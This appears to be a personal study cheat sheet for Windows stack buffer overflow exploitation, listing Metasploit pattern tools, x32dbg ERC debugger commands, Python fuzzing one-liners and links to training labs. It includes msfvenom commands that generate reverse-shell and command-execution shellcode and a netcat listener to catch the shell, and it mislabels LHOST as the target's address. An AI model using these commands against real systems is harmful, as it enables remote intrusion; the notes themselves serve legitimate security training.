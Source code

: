 ## Useful commands

### General

- `/usr/bin/msf-pattern_create -l 5000` Create a Pattern with msf-pattern (Metasploit)
- `/usr/bin/msf-pattern_offset -q 31684630` Find Pattern Offset with Metaplsoit
- `netstat -a \|findstr LISTEN` List listening ports on a Windows machine
- `nc 127.0.0.1 8888` Interact with port 8888
- `msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'` Generate a Local Privesc Shellcode
- `msfvenom -p 'windows/shell_reverse_tcp' LHOST=IP-ADR-OF-TARGET LPORT=1234 -f 'python' -b '\x00\0x0a'` Generate a Reverse Shell Shellcode
- `nc -lvnp 1234` catch our reverse shell

### Useful in x32dbg with ERC module installed

- `F3` Open file
- `alt+A` Attach to a process
- `alt+L` Go to Logs Tab
- `alt+E` Go to Symbols Tab
- `ctrl+f` Search for instruction
-  `ctrl+b` Search for pattern
- `Search For>All Modules>Command` Search all loaded modules for instruction
- `Search For>All Modules>Pattern` Search all loaded modules for pattern
-  `ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\` Configure Working Directory
- `ERC --pattern c 5000` Create Pattern
- `ERC --pattern o pA6p` Find Pattern Offset
- `ERC --bytearray` Generate All Characters Byte Array
- `ERC --bytearray -bytes 0x00` Generate Byte Array excluding certain bytes
- `ERC --compare 0014F974 C:\Users\User\working-dir\ByteArray_1.bin` Compare bytes in memory to a Byte Array file
- `ERC --ModuleInfo` List loaded modules and their memory protections

### Useful in Python

- `python -c "print('A'*10000)"  Print 10000 'A's
- `python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"` Write it to a file
- `breakpoint()` Add a breakpoint to Python exploit
- `c` Continue from breakpoint

## Resources

{% embed url="https://www.youtube.com/watch?v=ncBblM920jw&ab_channel=TheCyberMentor" %} Buffer overflow made easy 2022 Edition - The Cyber Mentor {% endembed %}
{% embed url="https://youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G" %} Buffer Overflows Made Easy - The Cyber Mentor {% endembed %}
{% embed url="https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-windows-x86" %} Stack-Based Buffer Overflows on Windows x86 - HackTheBox Academy {% endembed %}
{% embed url="https://tryhackme.com/room/bufferoverflowprep" %} Buffer Overflow Prep - THM {% endembed %}
{% embed url="https://tryhackme.com/room/brainstorm" %} Brainstorm - THM {% endembed %}
{% embed url="https://tryhackme.com/room/brainpan" %} Brainpan - THM {% endembed %}
{% embed url="https://tryhackme.com/room/gatekeeper" %} Gatekeeper - THM {% endembed %}
{% embed url="https://github.com/x64dbg/x64dbg" %} x64dbg {% endembed %}
{% embed url="https://github.com/x64dbg/x64dbg/releases/tag/snapshot" %} x64dbg releases {% endembed %}
{% embed url="https://github.com/Andy53/ERC.Xdbg/releases" %} ERC releases {% endembed %}
{% embed url="https://www.immunityinc.com/products/debugger/" %} Immunity Debugger {% endembed %}
